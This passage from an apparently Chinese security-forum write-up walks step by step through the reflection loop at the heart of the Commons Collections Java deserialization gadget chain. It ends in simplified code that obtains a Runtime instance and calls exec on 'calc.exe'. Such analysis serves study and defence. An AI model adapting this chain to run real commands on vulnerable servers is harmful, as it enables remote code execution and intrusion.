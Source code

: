 [![RDxIGn.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-627575a4a08934830ef7176f7623bd53ab4a4072.png)](https://imgtu.com/i/RDxIGn)

第三次循环，最重要的一步，先用反射获取`invoke方法对象`，然后利用`invoke方法对象.invoke`执行传入`getRuntime`方法对象，得到`Runtime`实例

```java
//第三次循环，input是通过反射获取到的getRuntime对象
        Class cls3=input2.getClass();//java.lang.reflec.Method类
        Method method3=cls3.getMethod("invoke", new Class[] {Object.class, Object[].class });//method3:invoke方法对象.第二个参数为invoke的参数类型

        //invoke方法对象.invoke(input, this.iArgs)实际上等于input.invoke(this.iArgs)
        Object input3=method3.invoke(input2,new Object[] {null, new Object[]{} }); //input3:Runtime实例
```

[![RDxs2t.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-635da9bb08942a0f6f7219972b1283d64dd89660.png)](https://imgtu.com/i/RDxs2t)

[![RDxgr8.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-71de7ed37d1f632027fc77b346ba74c812451464.png)](https://imgtu.com/i/RDxgr8)

第四次循环

```java
 //第四次循环，已经获取到了Runtime实例
        Class cls4=input3.getClass(); //cls4:java.lang.Runtime类
        Method method4=cls4.getMethod("exec",new Class[] {String.class });//method4:exec方法对象
        method4.invoke(input3,new Object[] {"calc.exe"});//exec方法对象.invoke(Runtime实例,参数)
```

[![RDxcKf.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f6cf6b2a4ba3a4e1d432ef337de8c6af212e4432.png)](https://imgtu.com/i/RDxcKf)

[![RDx2qS.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1ab22fb32094fac9309cdcb4516c5e1b960aec3d.png)](https://imgtu.com/i/RDx2qS)

简化流程

```java
import java.lang.reflect.Method;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {

        //第一次循环,返回了Runtie.class
        Class input1=Runtime.class;

        //第二次循环
        Class cls2=input1.getClass(); //cls2:java.lang.class类
        Method method2=cls2.getMethod("getMethod", String.class, Class[].class);//method2:通过反射获取到的getMethod对象
        Object input2=method2.invoke(input1,new Object[] {"getRuntime", new Class[]{} });//input2:getRuntime对象

        //第三次循环，input是通过反射获取到的getRuntime对象
        Class cls3=input2.getClass();//java.lang.reflec.Method类
        Method method3=cls3.getMethod("invoke", new Class[] {Object.class, Object[].class });//method3:invoke方法对象.第二个参数为invoke的参数类型

        //invoke方法对象.invoke(input, this.iArgs)实际上等于input.invoke(this.iArgs)
        Object input3=method3.invoke(input2,new Object[] {null, new Object[]{} }); //input3:Runtime实例

        //第四次循环，已经获取到了Runtime实例
        Class cls4=input3.getClass(); //cls4:java.lang.Runtime类
        Method method4=cls4.getMethod("exec",new Class[] {String.class });//method4:exec方法对象
        method4.invoke(input3,new Object[] {"calc.exe"});//exec方法对象.invoke(Runtime实例,参数)
```